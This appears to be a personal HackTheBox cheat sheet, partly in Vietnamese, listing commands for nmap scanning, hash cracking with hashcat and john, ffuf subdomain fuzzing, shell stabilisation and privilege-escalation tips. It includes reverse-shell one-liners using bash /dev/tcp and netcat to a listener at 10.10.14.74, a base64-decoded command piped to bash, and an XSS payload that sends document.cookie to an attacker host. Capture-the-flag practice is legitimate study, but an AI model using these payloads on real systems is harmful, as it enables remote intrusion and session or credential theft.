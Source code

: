 # HackTheBox

# nmap

nmap -A

# set hosts

window: C:\Windows\System32\drivers\etc
linux: /etc/hosts

# hash

`hashid hash.txt` để detect loại hash, xong dùng `hashcat`

- brute force theo định dạng:

```
hashcat -a 3 -m 1400 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

- brute force theo wordlist:

```
hashcat -a 0 -m 3200 logan.txt /usr/share/wordlists/rockyou.txt
```

- john:

```
john --format=bcrypt --wordlist=$wordlists/passwords/rockyou.txt hash.txt
```

- `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`
- SHA, $salt:$pass, salt là chữ số ($d), dùng cyberchef đổi sang format hex để decrypt:
![image](https://github.com/h2oa/HackTheBox/assets/114990730/79fa4fc2-4317-4575-89bb-cda7a30e106a)
```
hashcat -a 0 -m 120 "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" /usr/share/wordlists/rockyou.txt
```

# ffuf

```
ffuf -c -ic -w /usr/share/wordlists/dirb/big.txt -u http://devvortex.htb  -H "HOST:FUZZ.devvortex.htb" -fs 154
```

# reverse shell

thử hết các dạng :)))

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.74/1337 0>&1'
nc -c sh 10.10.14.74 1337
```

```
echo bHM= |base64 -d|bash
```

- Stabilizing the shell:

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```

# xss

```
php -S 0.0.0.0:80
python -m http.server 80
<img src=1 onerror=fetch('http://10.10.14.74/'+document.cookie);/>
```

# Kinh nghiệm

- login page: brute force, default account (tùy công nghệ)
- input: SSTI, command injection
- check `/var/mail` lấy thông tin mail nếu có
- fuzz subdomain, directory (`dirb <domain>`), path (`ffuf`)
- vào sqldatase
- `sudo -l` check xem user hiện tại thực hiện được gì với quyền root (search CVE với bất kỳ gì hiện ra trước)
- Thử cả `sudo su` và `su`

